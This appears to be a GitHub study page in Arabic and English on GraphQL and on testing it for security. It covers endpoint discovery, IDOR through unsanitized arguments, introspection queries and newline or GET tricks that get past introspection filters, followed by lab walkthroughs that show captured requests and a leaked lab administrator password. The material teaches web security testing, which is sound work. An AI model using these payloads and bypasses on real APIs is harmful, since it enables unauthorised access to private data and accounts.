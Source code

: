 # GraphQL

<details>
  <summary>what is GraphQL?</summary>


- <details>
      <summary>what is GraphQL & How it work?</summary>

  ## 🧠 ما هو GraphQL؟
  
  **GraphQL** هو لغة استعلام API (بديلة عن REST) تسمح للعملاء بطلب البيانات التي يحتاجونها فقط، مما:
  - يقلل من حجم الاستجابات.
  - يمنع تعدد الطلبات للحصول على بيانات من أكثر من مصدر.
  
  ---
  
  ## ⚙️ كيف يعمل GraphQL؟
  
  - يعتمد على **Schema** يحدد أنواع البيانات والعلاقات بينها.
  - يستخدم **نقطة نهاية واحدة فقط** (عادة POST).
  - جميع العمليات (queries/mutations/subscriptions) تُرسل إلى نفس الـ endpoint.
  
  ---
  
  ## 🔧 أنواع العمليات في GraphQL:
  
  | النوع         | الوظيفة                                       |
  |---------------|-----------------------------------------------|
  | **Query**     | لجلب البيانات                                  |
  | **Mutation**  | لإضافة أو تعديل أو حذف البيانات                |
  | **Subscription** | لإنشاء اتصال دائم لتحديث البيانات تلقائيًا  |
  
  ---
  
  ## 🟢 مميزات GraphQL:
  
  - عميل التطبيق يحدد **ما هي البيانات المطلوبة بالضبط**.
  - لا حاجة لمعرفة مكان البيانات أو كيفية تجميعها.
  - متوافق مع مختلف لغات البرمجة وقواعد البيانات.
  - الاستجابة تأتي بشكل **JSON منظم حسب الطلب**.
  
  ---
  
  ## 🔁 الفرق عن REST:
  
  | REST                      | GraphQL                                   |
  |---------------------------|--------------------------------------------|
  | عدة endpoints             | endpoint واحد فقط                         |
  | HTTP methods (GET, POST…) | POST فقط غالبًا                           |
  | استجابة كاملة              | استجابة مخصصة حسب الطلب فقط              |
  
  


  </details>









- <details>
      <summary>What is a GraphQL schema?</summary>
  
  
  
  ## 📘 ما هو GraphQL Schema؟
  
  **GraphQL Schema** هو العقد (Contract) بين الـ **Frontend** والـ **Backend** يوضح:
  - ما هي البيانات المتاحة.
  - ما هي أنواعها.
  - كيف يمكن استدعاؤها.
  
  ✅ يُكتب باستخدام **لغة تعريف بسيطة ومقروءة (SDL)**.
  
  ---
  
  ## 🧱 ما الذي يحتويه الـ Schema؟
  
  - **أنواع البيانات (Types)**: مثل `Product`, `User`, `Order`...
  - **الحقول (Fields)**: تمثل خصائص الكائنات (مثل name، id...).
  - **الأنواع الأساسية**: مثل `String`, `Int`, `Boolean`, `ID`
  - يمكن أن تكون الحقول:
    - **Object Type** (نوع مركب)
    - **Scalar Type** (نوع بسيط)
    - **Enum / Union / Interface / Custom Types**
  
  🔒 `!` يعني أن الحقل **إجباري (Non-nullable)**
  
  ---
  
  ## ✏️ مثال على تعريف Schema بسيط:
  
  ```graphql
  type Product {
    id: ID!
    name: String!
    description: String!
    price: Int
  }
  ```
  
  #### 📌 هذا يعرف نوع اسمه Product يحتوي على:
  
  - ``id``: معرف فريد (إجباري)
  
  - ``name``: اسم المنتج (إجباري)
  
  - ``description``: وصف (إجباري)
  
  - ``price``: السعر (اختياري)
  
  
  ## 🔍 مكونات إضافية في الـ Schema:
  
  يجب أن يحتوي على Query واحدة على الأقل (لجلب البيانات)
  
  عادةً يحتوي أيضًا على Mutations (لإضافة/تعديل/حذف بيانات)
  
  
  ## 💡 ملخص سريع:
  
  | العنصر           | الوصف                                   |
  | ---------------- | --------------------------------------- |
  | Schema           | يحدد شكل البيانات وكيف يتم الوصول إليها |
  | Types            | الكائنات التي يمكن استرجاعها أو تعديلها |
  | Fields           | خصائص كل كائن (الاسم، السعر، إلخ)       |
  | Non-nullable (!) | حقل إجباري لا يمكن أن يكون فارغًا       |
  
  



  </details>








- <details>
     <summary>What are GraphQL queries?</summary>
  
  
  ## 🔍 ما هي GraphQL Queries؟
  
  **GraphQL Queries** تُستخدم لاسترجاع البيانات من قاعدة البيانات أو مصدر البيانات.
  
  ✅ تشبه طلبات **GET** في REST APIs، لكنها:
  - أكثر مرونة
  - تُعيد فقط البيانات التي تطلبها
  
  ---
  
  ## 🧱 مكونات الاستعلام (Query):
  
  | العنصر                 | الوصف                                               |
  |-------------------------|------------------------------------------------------|
  | **نوع العملية (query)** | لتوضيح أن الطلب هو استعلام (اختياري لكن مفضل)       |
  | **اسم الاستعلام**       | لتسهيل التتبع والتصحيح (اختياري لكنه مفضل)          |
  | **الهيكلية المطلوبة**   | تحدد الحقول التي تريد استرجاعها                     |
  | **المعاملات (arguments)** | لتحديد عناصر معينة بناءً على شرط (مثل ID)            |
  
  ---
  
  ## ✏️ مثال على Query:
  
  ```graphql
  query myGetProductQuery {
    getProduct(id: 123) {
      name
      description
    }
  }
  ```
  
  
  ### 📌 هذا الاستعلام يطلب من الخادم:
  
  المنتج الذي معرفه ``123``
  
  ويطلب فقط الاسم والوصف
  
   > 💡 ملاحظة: حتى لو كان نوع Product يحتوي على حقول أكثر، فأنت تتحكم في ما يتم استرجاعه فقط.
  
  
  
  
  ## 📚 ملخص سريع:
  
  
  
  | المفهوم      | القيمة                                          |
  | ------------ | ----------------------------------------------- |
  | الاستعلام    | طلب بيانات من الخادم                            |
  | يشبه في REST | طلب `GET`                                       |
  | المرونة      | تطلب الحقول التي تحتاجها فقط                    |
  | المعاملات    | تُستخدم لتحديد بيانات معينة مثل `id`, `name`... |
  
  


  </details>







- <details>
     <summary>What are GraphQL mutations?</summary>
  
  
  ## 🔧 ما هي GraphQL Mutations؟
  
  **Mutations** تُستخدم لتعديل البيانات، وتشمل:
  - الإضافة (Create)
  - التعديل (Update)
  - الحذف (Delete)
  
  🟩 تقابل في REST:
  - `POST` / `PUT` / `DELETE`
  
  ---
  
  ## 🧱 مكونات الـ Mutation:
  
  | العنصر                   | الوصف                                                         |
  |---------------------------|----------------------------------------------------------------|
  | **نوع العملية (mutation)**| يُحدد أن العملية هي تعديل بيانات                              |
  | **اسم العملية**           | (اختياري لكنه مفيد) لتسهيل التتبع                             |
  | **المدخلات (Inputs)**     | يجب تمرير بيانات (قيم) لإجراء التعديل                         |
  | **الاستجابة**             | تحدد الحقول التي تريد إرجاعها بعد التعديل                     |
  
  ---
  
  ## ✏️ مثال على Mutation:
  
  ```graphql
  mutation {
    createProduct(name: "Flamin' Cocktail Glasses", listed: "yes") {
      id
      name
      listed
    }
  }
  ```
  
  
  ### 📌 هذا يقوم بـ:
  
  - إنشاء منتج جديد
  
  - يطلب من الخادم إرجاع id, name, و listed في الاستجابة
  
  
  
  
  ---
  
  ## 📥 مثال على الاستجابة:
  
  ```json
  {
    "data": {
      "createProduct": {
        "id": 123,
        "name": "Flamin' Cocktail Glasses",
        "listed": "yes"
      }
    }
  }
  ```
  
  
  
  ## 📚 ملخص سريع:
  
  | المفهوم      | القيمة                                       |
  | ------------ | -------------------------------------------- |
  | الغرض        | تعديل البيانات (إضافة، تعديل، حذف)           |
  | يشبه في REST | POST / PUT / DELETE                          |
  | يجب أن يحتوي | مدخلات (inputs)                              |
  | الاستجابة    | تحدد الحقول المراد إرجاعها بعد تنفيذ العملية |
  
  
  
  
  
  

     
  </details>













- <details>
     <summary>Components of queries and mutations</summary>

  
  
  # 📌 Components of GraphQL Queries and Mutations
  
  GraphQL يتكوّن من عناصر أساسية تُستخدم لجلب البيانات (queries) أو تعديلها (mutations).
  
  ---
  
  ## 🔸 Fields (الحقول)
  
  - كل نوع (Type) يحتوي على **Fields** يمكن استدعاؤها.
  - يمكنك تحديد فقط الحقول المطلوبة في الطلب.
  - الاستجابة تعكس ما طلبته بالضبط.
  
  ### ✅ مثال:
  
  ```graphql
  query myGetEmployeeQuery {
    getEmployees {
      id
      name {
        firstname
        lastname
      }
    }
  }
  ```

  ## Response

  ```json
      #Response
  
      {
          "data": {
              "getEmployees": [
                  {
                      "id": 1,
                      "name" {
                          "firstname": "Carlos",
                          "lastname": "Montoya"
                      }
                  },
                  {
                      "id": 2,
                      "name" {
                          "firstname": "Peter",
                          "lastname": "Wiener"
                      }
                  }
              ]
          }
      }
  ```

  ---
  
  ## 🔸 Arguments (المعاملات)
  
  - تُستخدم لتمرير قيم إلى الاستعلام.
  - تُحدَّد في الـ Schema.
  - تُساعد على جلب بيانات محددة.
  
  ### ✅ مثال:
  
  ```graphql
  query myGetEmployeeQuery {
    getEmployees(id: 1) {
      name {
        firstname
        lastname
      }
    }
  }
  ```

  ## response
  
  ```json
   #Response to query
  
      {
          "data": {
              "getEmployees": [
              {
                  "name" {
                      "firstname": Carlos,
                      "lastname": Montoya
                      }
                  }
              ]
          }
      }
  ```






  
  📌 **تنبيه:** يمكن أن تكون عرضة لهجمات مثل **IDOR** إذا لم يتم تأمين الوصول جيدًا.
  
  ---
  
  ## 🔸 Variables (المتغيرات)
  
  - تُستخدم لتمرير قيم ديناميكية بدلاً من وضعها مباشرة في الاستعلام.
  - تفصل بين **هيكل الاستعلام** و**قيم البيانات**.
  
  ### ✅ مثال:
  
  ```graphql
 
    #Example query with variable

    query getEmployeeWithVariable($id: ID!) {
        getEmployees(id:$id) {
            name {
                firstname
                lastname
            }
         }
    }

    Variables:
    {
        "id": 1
    }
  ```
  
 
  
  ---
  
  ## 🔸 Aliases (الأسماء البديلة)
  
  - تسمح بطلب نفس النوع أكثر من مرة في نفس الاستعلام.
  - تتجاوز القيود بأن يكون لكل خاصية اسم فريد.
  
  ### ❌ استعلام غير صحيح:
  
  ```graphql
 
    #Invalid query

    query getProductDetails {
        getProduct(id: 1) {
            id
            name
        }
        getProduct(id: 2) {
            id
            name
        }
    }
  ```
  
  ### ✅ استعلام صحيح باستخدام Aliases:
  
  ```graphql
  query getProductDetails {
    product1: getProduct(id: "1") {
      id
      name
    }
    product2: getProduct(id: "2") {
      id
      name
    }
  }
  ```

  ## response

  ```json

    #Response to query

    {
        "data": {
            "product1": {
                "id": 1,
                "name": "Juice Extractor"
             },
            "product2": {
                "id": 2,
                "name": "Fruit Overlays"
            }
        }
    }
  ```
  
  ---
  
  ## 🔸 Fragments (الأجزاء القابلة لإعادة الاستخدام)
  
  - تُستخدم لتعريف مجموعة من الحقول مرة واحدة.
  - تُساعد في تقليل التكرار وإعادة استخدام نفس البنية في عدة أماكن.
  
  ### ✅ مثال:
  
  ```graphql
  fragment productInfo on Product {
    id
    name
    listed
  }
  
 
  ```

  ## query calling fragment
  
  ```graphql
   #Query calling the fragment
  
      query {
          getProduct(id: 1) {
              ...productInfo
              stock
          }
      }
  ```
  
  ## response 
  
  ```json
     #Response including fragment fields
  
      {
          "data": {
              "getProduct": {
                  "id": 1,
                  "name": "Juice Extractor",
                  "listed": "no",
                  "stock": 5
              }
          }
      }
  ```


 
  ---
  
  ## 📚 ملخص سريع:
  
  | المكون       | الوظيفة الرئيسية                                                              |
  |--------------|--------------------------------------------------------------------------------|
  | Fields        | تحديد ما يجب استرجاعه من بيانات                                                |
  | Arguments     | تمرير قيم لتحديد أو تخصيص البيانات المطلوبة                                    |
  | Variables     | فصل القيم عن الاستعلام لسهولة التكرار والتعديل                                 |
  | Aliases       | إرسال نفس الطلب لنوع معين أكثر من مرة باستخدام أسماء بديلة                    |
  | Fragments     | تعريف أجزاء قابلة لإعادة الاستخدام في استعلامات أو Mutations متعددة           |
  
  





  </details>




- <details>
     <summary>Subscriptions & Introspection</summary>


  # 🔄 GraphQL Subscriptions & Introspection
  
  ## 🔸 Subscriptions
  
  **Subscriptions** هي نوع خاص من الاستعلامات (queries)، لكن الفرق الرئيسي هو أنها:
  - تُنشئ **اتصال دائم** بين العميل (Client) والخادم (Server)
  - تُستخدم لتلقي **تحديثات لحظية (Real-time)** من السيرفر دون الحاجة للاستعلام بشكل مستمر
  
  ### ✅ الفائدة الأساسية:
  - مناسبة للتحديثات السريعة والصغيرة مثل:
    - تطبيقات الدردشة (Chat apps)
    - تحرير المحتوى التعاوني (مثل Google Docs)
    - الإشعارات المباشرة
  
  ### ⚙️ طريقة العمل:
  - غالبًا يتم تنفيذها باستخدام **WebSockets**
  - تُحدد شكل البيانات المطلوبة مثل الاستعلامات العادية
  
  ---
  
  ## 🔍 Introspection
  
  **Introspection** هي ميزة مدمجة في GraphQL تسمح لك بـ:
  - الاستعلام عن معلومات حول **الـ Schema** نفسها
  - معرفة أنواع البيانات، الحقول، الاستعلامات المتاحة، الـ mutations، وغيرها
  
  ### ✅ تُستخدم في:
  - أدوات مثل **GraphQL Playground** أو **GraphiQL**
  - توليد التوثيق (Documentation)
  
  ### ⚠️ مخاطر أمنية:
  - يمكن أن تكشف **معلومات حساسة** عن الـ API
  - يمكن أن تساعد المخترق في معرفة كيفية التفاعل مع الـ API
  - 🔒 **يُنصح بإيقافها في بيئات الإنتاج (Production)**
  
  ---
  
  ## 📚 ملخص سريع:
  
  | العنصر         | الوصف                                                                 |
  |----------------|------------------------------------------------------------------------|
  | Subscriptions  | اتصال دائم من السيرفر للعميل لتحديث البيانات لحظيًا                     |
  | Introspection  | استعلام عن هيكل الـ GraphQL نفسه (Schema)                              |
  | تستخدم في      | الدردشة، التحديثات اللحظية، توثيق GraphQL                               |
  | المخاطر        | Introspection قد تكشف تفاصيل داخلية حساسة - يجب تعطيلها في الإنتاج     |
  """
  

  </details>





  
</details>





<details>
  <summary>Finding GraphQL endpoints</summary>



# 🔍 Discovering & Testing GraphQL Endpoints

قبل اختبار أي GraphQL API، لازم تلاقي أولًا **الـ endpoint** الخاص بيها. كل طلبات GraphQL تروح لنفس الـ endpoint، فمعرفته مهمة جدًا.

---

## 🧪 Universal Query

### ما هو؟
استعلام بسيط لاختبار إذا كان عنوان URL يحتوي على GraphQL endpoint.

### ✅ مثال:
```graphql
query { __typename }
```

### 📥 الاستجابة المتوقعة:
```json
{
  "data": {
    "__typename": "query"
  }
}
```

🔎 هذا يساعدك تتأكد إنك بتتعامل مع GraphQL.

---

## 📍 Common GraphQL Endpoints

جرب ترسل universal query لهذه المسارات:

- `/graphql`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`
- (أحيانًا) أضف `/v1` في النهاية مثل: `/api/graphql/v1`

---

## 📬 طرق إرسال الطلبات (Request Methods)

| الطريقة       | الحالة                                      |
|---------------|----------------------------------------------|
| `POST` + `application/json` | ✅ الأفضل والأكثر أمانًا                  |
| `GET` أو `POST` + `x-www-form-urlencoded` | 🚫 ممكن تكون متاحة في بعض التطبيقات |

🔒 من الأفضل أن تقبل فقط POST + JSON لتفادي **CSRF**.

---

## 🧭 كيفية التأكد من الـ Endpoint

- جرب كل المسارات المعروفة باستخدام universal query.
- لو رجع استجابة بـ "query not present" أو شبيه، ده غالبًا GraphQL.
- غير طرق الطلب وشوف الاستجابة.

---

## 🧰 أدوات مساعدة

- **Burp Scanner**: بيقدر يكتشف GraphQL endpoints تلقائيًا.
  - يظهر إشعار "GraphQL endpoint found" لو تم اكتشافه.

- **Burp Proxy**:
  - استخدم المتصفح المدمج في Burp.
  - راقب HTTP History وشوف الطلبات اللي بيتم إرسالها.
  - كده تقدر تشوف استعلامات GraphQL الحقيقية في التطبيق.

---

## 📚 ملخص سريع:

| العنصر               | التوضيح                                                        |
|------------------------|----------------------------------------------------------------|
| Universal Query        | استعلام بسيط للتأكد من وجود GraphQL                          |
| Common Endpoints       | مسارات متكررة غالبًا تستخدمها الخدمات                        |
| طرق HTTP               | جرب POST + JSON أولًا، ثم طرق أخرى لو فشلت                    |
| أدوات الكشف           | Burp Suite مفيد جدًا في تحليل واستكشاف واجهات GraphQL         |


  
</details>










<details>
  <summary>Exploiting unsanitized arguments</summary>


  
  # ⚠️ Exploiting Unsanitized Arguments in GraphQL
  
  في مرحلة اختبار الأمان، من الجيد البدء باختبار **المعاملات (arguments)** داخل الاستعلامات. بعض التطبيقات تكون معرضة لثغرات **الوصول غير المصرح به** أو ما يُعرف بـ **IDOR**.
  
  ---
  
  ## ❗ ما هي ثغرة IDOR في GraphQL؟
  
  - تحدث عندما يُسمح للمستخدم بطلب كائن باستخدام معرف (ID) دون التأكد من صلاحياته.
  - المستخدم قد يصل إلى بيانات لا يملك إذنًا لرؤيتها فقط عن طريق تغيير قيمة الـ ID.
  
  ---
  
  ## 🎯 مثال عملي:
  
  ### 🔹 استعلام يعرض المنتجات المتاحة فقط:
  
  ```graphql
  query {
    products {
      id
      name
      listed
    }
  }
  ```
  
  ### 🔹 استجابة توضح المنتجات المتاحة فقط:
  
  ```json
  {
    "data": {
      "products": [
        { "id": 1, "name": "Product 1", "listed": true },
        { "id": 2, "name": "Product 2", "listed": true },
        { "id": 4, "name": "Product 4", "listed": true }
      ]
    }
  }
  ```
  
  📌 الملاحظة:
  - المنتج ذو ID رقم 3 غير ظاهر. من المحتمل أنه **غير مُدرج** أو محجوب.
  
  ---
  
  ## 🕵️‍♂️ محاولة الوصول للمنتج الغير ظاهر:
  
  ```graphql
  query {
    product(id: 3) {
      id
      name
      listed
    }
  }
  ```
  
  ### 🧨 استجابة غير متوقعة:
  
  ```json
  {
    "data": {
      "product": {
        "id": 3,
        "name": "Product 3",
        "listed": false
      }
    }
  }
  ```
  
  ✅ يعني أنه لا يوجد تحقق من صلاحيات المستخدم، وقدرنا نوصل لمنتج **غير ظاهر للعامة**.
  
  ---
  
  ## 🚨 الملخص:
  
  | العنصر              | التوضيح                                                  |
  |---------------------|-----------------------------------------------------------|
  | نوع الهجوم         | Insecure Direct Object Reference (IDOR)                   |
  | السبب              | عدم وجود تحقق من صلاحيات المستخدم عند استخدام المعاملات   |
  | النتيجة المحتملة   | الوصول إلى بيانات حساسة أو غير معلنة                      |
  | الطريقة            | تغيير قيمة الـ ID أو معلمة في الاستعلام يدويًا            |
  
  ---
  
  ## 🔐 التوصية للمطورين:
  
  - تأكد دائمًا من صلاحيات المستخدم قبل جلب الكائنات الحساسة.
  - لا تعتمد فقط على أن الاستعلام لا يُرجع البيانات في بعض الحالات.
  - راجع التحكم بالوصول (Access Control) بدقة.
  
  
  
    
</details>






<details>
  <summary>Discovering schema information</summary>




# 🧠 Discovering Schema Information in GraphQL

الخطوة التالية بعد الوصول لنقطة النهاية (endpoint) في GraphQL هي **اكتشاف معلومات المخطط (schema)** لفهم كيفية التفاعل مع الـ API.

---

## 🔍 ما هي Introspection؟

- Introspection هي ميزة مدمجة في GraphQL تتيح لك الاستعلام عن معلومات حول المخطط (schema).
- تُستخدم لفهم أنواع البيانات المتاحة، والاستعلامات (queries)، والتحويلات (mutations)، والاشتراكات (subscriptions)، وحتى الأوصاف الخاصة بها.

---

## ✨ فائدة Introspection

| الفائدة                         | التوضيح |
|--------------------------------|---------|
| فهم البنية الكاملة للـ API     | تعرف ما هي الأنواع والاستعلامات والحقول المتوفرة |
| كشف معلومات حساسة محتملة      | مثل الأوصاف أو الأسماء الداخلية التي لم تُنشر للعامة |
| تستخدمها أدوات التوثيق IDEs   | مثل GraphQL Playground و Postman و Burp Scanner |

---

## 🚀 استخدام introspection

### ✅ استعلام بسيط للتأكد من تفعيل introspection:

```json
{
  "query": "{__schema{queryType{name}}}"
}
```

📌 إذا استرجعت أسماء الاستعلامات، فإن introspection مفعلة.

---

## 📜 استعلام Introspection كامل

إذا أردت استخراج كل تفاصيل المخطط:

```graphql

    #Full introspection query

    query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```

🔧 ملاحظة: احذف `onOperation`, `onFragment`, `onField` إن ظهرت لك أخطاء.

---

## 📊 أدوات لتسهيل الفهم

- **GraphQL Visualizer**: يعرض علاقات المخطط بطريقة رسومية.
- **Burp Suite**: يمكنه توليد استعلام introspection واكتشاف التوجيهات والمخطط.
- **Clairvoyance**: أداة تقوم بجمع معلومات المخطط من **الاقتراحات** حتى لو كان introspection معطل.

---

## 💬 ماذا عن الاقتراحات؟

- تستخدم بعض الخوادم مثل Apollo GraphQL ميزة **الاقتراحات الذكية**.
- عند وجود خطأ بسيط في اسم الحقل، يقترح الاسم الصحيح.
- يمكن استغلال هذه الميزة لاستخراج المخطط جزئياً.

🔍 مثال:
> There is no entry for 'productInfo'. Did you mean 'productInformation'?

🛡️ لا يمكن تعطيل الاقتراحات مباشرةً في Apollo، ولكن هناك بعض الحيل في GitHub لتعطيلها.

---

## 📌 ملاحظات أمنية

| الجانب الأمني       | التوصية |
|---------------------|---------|
| introspection       | يجب تعطيله في بيئة الإنتاج |
| الاقتراحات          | تجنب تمكينها أو قم بفحص الردود بدقة |
| Burp Scanner        | يمكنه اختبار introspection والاقتراحات تلقائيًا |





  
</details>







<details>
  <summary>Bypassing GraphQL introspection defenses</summary>


# 🔍 Bypassing GraphQL Introspection Defenses

When developers try to secure GraphQL APIs by disabling **introspection**, they often rely on naive regex filters that block any query containing `__schema`. However, these filters can be bypassed in clever ways.




---

## 🔐 What Developers Do (Wrongly)

To prevent this, developers often filter out requests containing `__schema` or `__introspection`, using regular expressions.

Example:
```regex
/__schema{/
```

This blocks simple introspection queries... **but only the exact format.**

---

## 💥 Bypass Techniques

### 1. Inject Special Characters

GraphQL **ignores whitespaces, new lines, and commas**.

But naive regex filters don’t. So, by inserting harmless characters, you bypass the filter.

#### Example: Using a Newline Character

```json
{
  "query": "query{__schema
{queryType{name}}}"
}
```

#### Why this works:

- The developer's regex blocks `__schema{`
- But `__schema
{` doesn’t match their pattern
- Yet GraphQL still parses it correctly ✅

---

### 2. Try Alternative Request Methods

Developers may only disable introspection on POST requests.

Try:

#### ▶ GET Request with URL-Encoded Introspection Query

```http
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

Decoded:
```graphql
query {
  __schema
  {
    queryType {
      name
    }
  }
}
```

#### ▶ POST Request with Form URL-Encoded Body

```http
POST /graphql
Content-Type: application/x-www-form-urlencoded

query=query{__schema{queryType{name}}}
```

---

## 🧠 Extra Tips

- Save results to your Burp Suite **Site Map** for later analysis
- Combine this with tools like **GraphQL Voyager**, **InQL**, or **GraphQLmap** to visualize the schema
- Once schema is found, try:
  - Sensitive queries (email, password, tokens)
  - Mutations that may allow actions like reset, delete, or admin escalation

---

## 🛠 Want to Automate This?

You can easily script these bypass attempts using **Python + requests** to iterate over multiple bypass formats and content-types.

Let me know if you want the script.

---

## ✅ Goal

Get access to the full GraphQL schema **even if introspection is "disabled".**
This enables a full map of the API surface for further exploitation.

---

Stay sneaky 😎

  
</details>


























































































































----
----


# **``GraphQL Labs``**



<details>
  <summary>Lab: Accessing private GraphQL posts</summary>

> ### The blog page for this lab contains a hidden blog post that has a secret password. To solve the lab, find the hidden blog post and enter the password. 


---

1. active **``burp live passive Crawl``**

<img width="400" height="168" alt="image" src="https://github.com/user-attachments/assets/1aabdb2e-2be3-419d-8f5e-5cbbf23f341b" />

**``Found``**


```http
POST /graphql/v1 HTTP/2
Host: 0a840000031c9eaf83cdf5c7001700fe.web-security-academy.net
Cookie: session=6rY0h8IeXuTOu3Viib6k5KsJYOZNxku1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a840000031c9eaf83cdf5c7001700fe.web-security-academy.net/post?postId=2
Content-Type: application/json
Content-Length: 249
Origin: https://0a840000031c9eaf83cdf5c7001700fe.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers



{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\n        }\n    }","operationName":"getBlogPost","variables":{"id":2}}
```


find introspection

simple one to check

<img width="1524" height="476" alt="image" src="https://github.com/user-attachments/assets/403cf877-4073-4ec6-becb-c926c3b227a0" />


> Don't forget to convert form ``graphql`` to ``json`` 

[From_graphql_2_json](https://datafetcher.com/graphql-json-body-converter)

```json
{

  "query": " query IntrospectionQuery { __schema { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"

}
```

<img width="1570" height="723" alt="image" src="https://github.com/user-attachments/assets/3104cd2c-b626-4eae-9ff3-f741a7135f57" />


> ### put output to visulizer

[graphql_visulaize3r](http://nathanrandal.com/graphql-visualizer/)


<img width="848" height="657" alt="image" src="https://github.com/user-attachments/assets/40ebcb57-fe05-4ba5-906c-31ec3f82fb39" />


Try to read content of ``postPassword`` of all posts

```graphql
query {
  getAllBlogPosts {
    id
    title
    postPassword
  }
}
```

but if you notice that there ar id form ``1`` to ``5`` exept **``3``** this might be it's ``isPrivate: Boolean!`` is true

<img width="1527" height="622" alt="image" src="https://github.com/user-attachments/assets/6546c0c4-2f1a-4cac-990c-05e145d21c22" />

so if i use the first query and try to see password 

```json
{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\n     postPassword\n   }\n    }","operationName":"getBlogPost","variables":{"id":3

}}
```

<img width="1544" height="651" alt="image" src="https://github.com/user-attachments/assets/e689a70d-8315-4412-9c87-b8d5aa85efd6" />


found the password

```

```

  
</details>









<details>
  <summary>Lab: Accidental exposure of private GraphQL fields</summary>


### > The user management functions for this lab are powered by a GraphQL endpoint. The lab contains an access control vulnerability whereby you can induce the API to reveal user credential fields.

> To solve the lab, sign in as the administrator and delete the username ``carlos``. 

---

find this request 

<img width="1211" height="602" alt="image" src="https://github.com/user-attachments/assets/ce5ced22-73f4-416f-835a-effedd00e716" />

``Introspection Query``

```json
{

  "query": " query IntrospectionQuery { __schema { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"

}
```

``Introspection Result``

<img width="1540" height="640" alt="image" src="https://github.com/user-attachments/assets/07d67e10-15c5-4b3a-95a9-5a60b4b257f7" />

<img width="843" height="720" alt="image" src="https://github.com/user-attachments/assets/acca9c26-a639-4f12-8c97-1b4b5edcd8de" />

now try to use ``getUser(id:Int!): User`` to find **``administrator``** user


```graphql
{
  getUser(id: 1) {
    id
    username
    password
  }
}

```

<img width="1316" height="367" alt="image" src="https://github.com/user-attachments/assets/e932fd39-cead-4b3d-9c44-3ae3474b1329" />


```
administrator : lnqajgkwlru628r4sgjc
```

<img width="1330" height="486" alt="image" src="https://github.com/user-attachments/assets/4ed941d2-305e-4e47-8b02-58d16d623fb2" />

<img width="1290" height="268" alt="image" src="https://github.com/user-attachments/assets/89d700e2-75c7-4ab1-8c53-441c2c82b3fe" />


  
</details>





<details>
  <summary>Lab: Finding a hidden GraphQL endpoint</summary>


###>  The user management functions for this lab are powered by a hidden GraphQL endpoint. You won't be able to find this endpoint by simply clicking pages in the site. The endpoint also has some defenses against introspection.

> To solve the lab, find the hidden endpoint and delete ``carlos``. 

----


first test common ``graphql`` endpoints

<img width="557" height="460" alt="image" src="https://github.com/user-attachments/assets/3172e313-20bc-4226-9b04-920f1893b50a" />

all responses ``404`` except one ``405`` but say ``method not allowed``

<img width="954" height="241" alt="image" src="https://github.com/user-attachments/assets/3faecc2c-88fb-4074-926b-c76228eed772" />

it seem that it allow **``GET``** method

<img width="919" height="572" alt="image" src="https://github.com/user-attachments/assets/8a3a78bc-2a86-437e-a9c5-af9d7c275a0f" />

now **``qurey not present``**

<img width="1534" height="447" alt="image" src="https://github.com/user-attachments/assets/d77a13d6-bb67-4ee9-8539-4d1d96de0408" />

first put this header in request 

```http
Content-Type: application/json;
```

and try to add simple qurey to see what will be the result

```json
{
  "query": "query{__typename}"
}
```

and booom 

<img width="1534" height="441" alt="image" src="https://github.com/user-attachments/assets/ee8a6f2c-bc06-4909-99aa-cf48313978ef" />

now try to write introspction simple query :

```json
{
  "query": "{__schema{queryType{name}}}"
}
```

response say ``introspection not allowed`` it seems there is filteration on it 

<img width="1542" height="449" alt="image" src="https://github.com/user-attachments/assets/9c22e8d9-09b0-4ac3-9ce2-6471385de770" />

try to pypass it by using **``\n``**:

```json
{
  "query": "{__schema\n{queryType{name}}}"
}

                      |
```
and it work 🔥

